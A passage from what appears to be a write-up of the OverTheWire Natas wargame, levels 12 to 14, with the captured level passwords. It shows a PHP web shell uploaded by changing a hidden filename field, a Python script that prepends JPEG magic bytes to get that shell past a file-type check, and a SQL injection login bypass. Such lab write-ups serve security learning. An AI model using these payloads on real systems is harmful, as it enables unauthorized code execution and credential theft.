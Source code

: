 > `<input type="hidden" name="filename" value="w01h6ubw9x.jpg" />`

So all we have to do is inspect element and change the .jpg to .php.

Once we upload the file, we can run the file by clicking the link. We can then add `?cmd=cat /etc/natas_webpass/natas13` after the file name to see the password.

```
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
```

# 13

```
Username: natas13
URL:      http://natas13.natas.labs.overthewire.org
```

The code now uses exif to check what file type it is. Basically checking the first few bytes and seeing whether it matches for a jpeg file.  The signature is `FF D8 FF E0`, we need a way to put that on our PHP file from last level. I used this python code to do this.

> ```python
> hex_jpeg = bytearray([0xFF, 0xD8, 0xFF, 0xE0])
> code = "<?php echo passthru($_GET['cmd']); ?>"
> with open('newCode.php', 'wb') as file:
>     file.write(hex_jpeg)
>     file.write(code.encode('utf-8'))
> ```

Once that's done, just follow the same steps as the previous level. Make sure you don't pick up the first four characters. (They may appear as a diamond with a question mark)

```
���� z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ 
```

# 14

```
Username: natas14
URL:      http://natas14.natas.labs.overthewire.org
```

The website is using SQL to get a username and password onto the website. Looking onto the source code it seems that the query is displayed like this:

> `SELECT * from users where username="(user)"and password="(pass)";`

Since we can put anything on the input, you can just leave the username blank, and put `"  or "1" = "1` as our password. Basically by doing this, we get all the users on the site which is more than 0 rows needed to get the success message.

```
Successful login! The password for natas15 is SdqIqBsFcz3yotlNYErZSZwblkm0lrvx
```
